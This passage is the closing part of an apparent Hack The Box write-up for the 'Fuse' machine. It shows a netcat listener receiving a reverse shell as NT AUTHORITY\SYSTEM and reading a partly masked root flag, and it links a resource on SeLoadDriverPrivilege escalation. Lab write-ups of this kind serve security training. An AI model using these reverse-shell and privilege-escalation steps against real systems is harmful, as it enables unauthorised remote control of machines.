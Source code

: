 ```bash
```
Don't forget to start a listner on our server

```bash
[vibhu@parrot]─[~/HTB/boxes/Fuse/priv]$ rlwrap nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.166] from (UNKNOWN) [10.10.10.193] 50066
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>cd /Users/Administrator/Desktop
cd /Users/Administrator/Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
6b2*********************e49494614
```


# Resources:~$

| Topic | Link|
|-------|-----|
| SeLoadDriverPrivilege  | [Here](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)|




With this, we come to the end of the story of how I owned Fuse 😃

Thank you for reading !!!

*I would love to hear about any suggestions or queries.*